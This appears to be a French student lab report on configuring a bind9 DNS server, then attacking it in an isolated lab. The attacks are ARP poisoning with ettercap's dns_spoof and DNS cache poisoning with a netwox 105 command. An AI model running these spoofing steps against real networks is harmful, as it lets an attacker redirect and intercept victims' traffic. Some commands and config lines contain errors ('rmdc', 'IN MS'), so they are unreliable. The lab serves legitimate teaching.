


# Labo DNS

## A quoi sert un serveur DNS ?

Un serveur DNS (Domain Name Server) sert à traduire le nom de domaine entré par l'utilisateur vers l'adresse ip corespondante.

Serveur DNS IP = 192.168.192.129
Client IP = 192.168.192.133
Attaquant IP = 192.168.192.132

## 1. Configuration DNS

* Installer bind9 sur la vm DNS_Serv 
```
sudo apt install bind9
```

* modifier le fichier **/etc/cache/bind/named.conf.option** :
    - Commenter la ligne *dnssec-validation auto;*
    - Rajouter la ligne *dnssec-enable no;*

* Restart le serveur DNS : 

```
sudo systemctl restart bind9
```

## 2. Configuration Client

* Changer dans les paramètres réseau l'adresse du serveur dns par celle de la vm du serveur DNS.

* restart le network manager :
```
sudo /etc/init.d/networking restart
```

## 3. Configuration machine host VM

choisir l'interface VMnet8

choisir un filtre dans le wireshark 
```
ip.addr==192.168.192.129
```

Après avoir ping hepia.ch on obtient sur le wireshark :


## Effectuer une nouvelle fois ce ping, que se passe-t-il ? Pourquoi ?

Il n'effectue pas la requête DNS car le client connait déjà l'addresse ip correspondante au serveur hepia.ch.

## 4. Configurer une zone sur le serveur DNS

modifier le fichier **/etc/bind/named.conf.local**. Ajouter les lignes suivantes :
```
zone "labhepia.ch" {
    type master;
    file "/etc/bind/db.labhepia.ch.zone";
};
```

copier le fichier db.empty :
```
sudo cp db.empty db.labhepia.ch.zone
```

modifier le fichier **db.labhepia.ch.zone**:

```
...

@ IN MS ns.labhepia.ch
@ IN MX 10 mail.labhepia.ch

www IN A ? ; ?
www IN A ? ; Address of mail.labhepia.ch
client IN A ? ; ?
attack IN A ? ; ?
* IN A ? ; ?
```

redémarrer le service bind :
```
sudo systemctl restart bind9
```

modifier le fichier **/etc/hosts** sur la machine DNS Client. Rajoutez à la 3<sup>ème</sup> ligne :

```
1.2.3.4   www.mabanque.ch
```

On essaie maintenant de ping *www.mabanque.ch* et on obtient :


## 5. Configuration machine Attanquante :

modifier le fichier **/etc/ettercap/etter.dns**. Dans la partie *"microsoft sucks :)"* :

```
microsoft.com A 192.168.192.132
*.microsoft.com A 192.168.192.132
www.microsoft.com PTR 192.168.192.132
```

Start ettercap avec une interface graphique :
```
ettercap -G
```

Dans les onglets :
* sniff->Unified Sniffing->eth0
* hosts->scan for host
* hosts->hosts list->192.168.192.129 et 192.168.192.133
* MITM->ARP Poisonning->Sniff remote Connection->Valider
* Plugins->Manage the plugins->dns_spoof

Vider le cache sur le client :
```
sudo systemd-resolve --flush-caches
```

## Vérifier et montrer que l'attaque fonctionne. Désactiver le spoofing et refaire une requête, que se passe-t-il ? Pourquoi ?

On ne peut toujours pas accéder au site car l'adresse de l'attaquant et toujours dans le cache.

## 6. Poisonning DNS

supprimer le cache du serveur DNS.

```
sudo rmdc flush
```

Poisonning DNS:
```
sudo netwox 105 -h www.hepia.ch -H 192.168.192.132 -a ns.hepia.ch -A 192.168.192.132 --spoofip "raw" --ttl 86400
```

vider le cache sur le client :
```
sudo systemd-resolve --flush-caches
```
## Que se passe-t-il ?

Vider le cache du client est inutile car c'est le cache du DNS qui a été empoisonné 